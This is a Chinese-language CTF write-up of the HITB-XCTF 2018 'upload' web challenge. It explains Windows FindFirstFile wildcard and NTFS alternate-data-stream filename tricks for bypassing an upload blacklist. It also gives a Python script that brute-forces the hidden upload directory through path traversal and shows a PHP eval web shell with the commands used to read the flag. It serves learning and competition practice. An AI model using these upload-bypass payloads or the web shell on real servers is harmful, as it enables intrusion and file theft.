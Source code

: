 ```yaml
---
title: HITB-XCTF 2018 web writeup
tags: 
  - ctf
date: 2018-04-15 13:02:52
---
```


# upload

<!-- more -->
## 考点
windows平台的一些特性
- windows平台特性
windows下搜索文件用到的是FindFirstFile，该函数执行时，会将`"<" => "*"`、`">" => "?"`、`" => .`，所以在应用中，我们可以使用这个特性。e.g.
        `?filename=a>  =>  a?` 匹配单个字符
        `?filename=a<  =>  a*` 匹配多个字符
        `?filename=a"  =>  a.`

- NTFS ADS特性

| 上传的文件名 | 系统结果 |
| :-: | :-: |
| test.php:a.jpg | 生成test.php，但是无内容 |
| test.php::$DATA | 生成test.php，有内容 |
| test.php::$INDEX_ALLOCATION | 生成test.php文件夹  |
| test.php::$DATA.jpg | 生成0.jpg，有内容 |
| test.php::$DATA\test.jpg | 生成aaa.jpg，有内容  |

## 过程

- step 1:
功能点#文件上传 #上传文件宽高 => getshell
环境：IIS7.0 Windows Server 2008 Standard Edition Service Pack 2

- step 2:
文件上传功能黑名单php，文件名前缀时间戳重写，但截取上传文件名的最后一个后缀不变。简单利用ADS特性，上传test.php::$DATA

- step 3:
上传了文件后，需要找到文件目录。pic.php返回了上传文件宽和高，猜测其使用了getimagesize，想到前段时间的一篇[帖子](https://xianzhi.aliyun.com/forum/topic/2064)，写个脚本跑该复杂目录

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Created by wh1t3P1g at 2018/4/11

import requests

str="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
ret=""
for i in range(32):
    for c in str:
        t=ret+c
        url="http://47.90.97.18:9999/pic.php?filename=../"+t+"%3C/1523456340.jpg"
        r=requests.get(url)
        if "width" in r.content:
            ret+=c
            print ret
            break
```

得到目录87194f13726af7cee27ba2cfe97b60df

- step 4:
有了目录就能访问上传的一句话`<?php eval($_POST[cmd]);?>`，系统禁用了执行系统命令的一些函数，但是这里并不需要执行命令。
这里不截图了
`cmd=var_dump(glob("../*"));`得到flag.php，访问后发现需要读取flag.php的内容
`cmd=echo readfile("../flag.php");`得到flag

## 总结
这次就做了一道web，还有待提高和积累:)






